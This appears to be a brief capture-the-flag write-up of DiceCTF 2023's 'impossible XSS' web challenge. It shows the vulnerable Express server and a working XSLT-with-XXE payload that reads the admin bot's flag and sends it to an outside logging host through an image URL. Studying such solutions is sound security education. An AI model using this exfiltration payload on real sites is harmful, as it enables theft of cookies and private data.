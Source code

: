 Author's writeup: https://brycec.me/posts/dicectf_2023_challenges

## Web - impossible XSS (0 solves)

This question is very cool, and the code is very simple:

``` js
const express = require('express');
const cookieParser = require('cookie-parser');
const app = express();
app.use(cookieParser());

app.get('/', (req, res) => {
    // free xss, how hard could it be?
    res.end(req.query?.xss ?? 'welcome to impossible-xss');
});

app.get('/flag', (req, res) => {
    // flag in admin bot's FLAG cookie
    res.end(req.cookies?.FLAG ?? 'dice{fakeflag}');
});

app.listen(8080);
```

You have a free xss, but there is a line `await page.setJavaScriptEnabled(false);` in the admin bot, which turns off JS directly.

The solution is to use XSLT with XXE, like this:

``` js
ss = `<?xml version="1.0"?>
<!DOCTYPE a [
   <!ENTITY xxe SYSTEM  "https://impossible-xss.mc.ax/flag" >]>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:template match="/asdf">
    <HTML>
      <HEAD>
        <TITLE></TITLE>
      </HEAD>
      <BODY>
        <img>
          <xsl:attribute name="src">
            https://hc.lc/log2.php?&xxe;
          </xsl:attribute>
        </img>
      </BODY>
    </HTML>
  </xsl:template>
</xsl:stylesheet>`

xml=`<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="data:text/plain;base64,${btoa(ss)}"?>
<asdf></asdf>`
payload=encodeURIComponent(xml)
```

Author's writeup: https://blog.ankursundara.com/dicectf23-writeups/

